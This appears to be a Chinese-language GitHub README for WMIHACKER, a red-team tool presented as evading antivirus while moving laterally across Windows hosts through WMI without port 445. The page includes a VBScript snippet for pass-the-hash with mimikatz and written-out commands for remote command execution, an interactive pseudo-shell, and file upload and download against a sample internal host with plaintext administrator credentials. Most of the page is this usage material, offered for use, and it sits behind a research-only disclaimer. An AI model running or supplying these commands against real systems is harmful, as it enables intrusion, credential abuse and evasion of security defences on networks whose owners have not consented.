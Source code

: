 # WMIHACKER(无需445端口)
> 免责声明：本项目涉及的技术仅供安全学习与研究防御用途，禁止非法使用！

**联系我: _xiangshan(微信)**

免杀横向移动命令执行测试工具(无需445端口)

介绍：免杀横向渗透远程命令执行，常见的WMIEXEC、PSEXEC执行命令是创建服务或调用Win32_Process.create执行命令，这些方式都已经被杀软100%拦截，通过改造出WMIHACKER免杀横向移动测试工具。(无需445端口)

主要功能：1、命令执行；2、文件上传；3、文件下载；4、PTH使用

## 使用
合并[Issue 1](https://github.com/360-Linton-Lab/WMIHACKER/issues/1)里PTH的使用方法：

```vbscript
第54-58行代码：

if user = "-" And pass = "-" Then
set objWMIService = objLocator.connectserver(host,"root/cimv2")
Set SubobjSWbemServices = objLocator.ConnectServer(host, "root\subscription")
Set regWMIService = objLocator.ConnectServer(host, "root\default")

用户名和密码填“-”，结合mimikatz的PTH就可以进行WMI的PTH了。
```

```
C:\Users\administrator\Desktop>cscript //nologo WMIHACKER_0.6.vbs

__          ____  __ _____   _    _          _____ _  ________ _____
\ \        / /  \/  |_   _| | |  | |   /\   / ____| |/ /  ____|  __ \
 \ \  /\  / /| \  / | | |   | |__| |  /  \ | |    | ' /| |__  | |__) |
  \ \/  \/ / | |\/| | | |   |  __  | / /\ \| |    |  < |  __| |  _  /
   \  /\  /  | |  | |_| |_  | |  | |/ ____ \ |____| . \| |____| | \ \
    \/  \/   |_|  |_|_____| |_|  |_/_/    \_\_____|_|\_\______|_|  \_\
                              v0.6beta       By. Xiangshan@360RedTeam
Usage:
        WMIHACKER.vbs  /cmd  host  user  pass  command GETRES?

        WMIHACKER.vbs  /shell  host  user  pass

        WMIHACKER.vbs  /upload  host  user  pass  localpath remotepath

        WMIHACKER.vbs  /download  host  user  pass  localpath remotepath

          /cmd          single command mode
          host          hostname or IP address
          GETRES?       Res Need Or Not, Use 1 Or 0
          command       the command to run on remote host
```

有命令回显执行方式

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo" 1`

无命令回显

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo > c:\1.txt" 0`

模拟shell模式

`> cscript WMIHACKER_0.6.vbs /shell 172.16.94.187 administrator "Password!" `

文件上传-复制本机calc.exe到远程主机c:\calc.exe

`> cscript wmihacker_0.4.vbe /upload 172.16.94.187 administrator "Password!" "c:\windows\system32\calc.exe" "c:\calc"`

文件下载-下载远程主机calc.exe到本地c:\calc.exe

`> cscript wmihacker_0.4.vbe /download 172.16.94.187 administrator "Password!" "c:\calc" "c:\windows\system32\calc.exe" `

## 404星链计划
<img src="https://github.com/knownsec/404StarLink-Project/raw/master/logo.png" width="30%">

WMIHACKER 现已加入 [404星链计划](https://github.com/knownsec/404StarLink)

## BlackHat Asia 2020 Arsenal

[https://www.blackhat.com/asia-20/arsenal/schedule/#wmihacker-a-new-way-to-use-135-port-lateral-movement-bypass-av-and-transfer-file-18995](https://www.blackhat.com/asia-20/arsenal/schedule/#wmihacker-a-new-way-to-use-135-port-lateral-movement-bypass-av-and-transfer-file-18995)
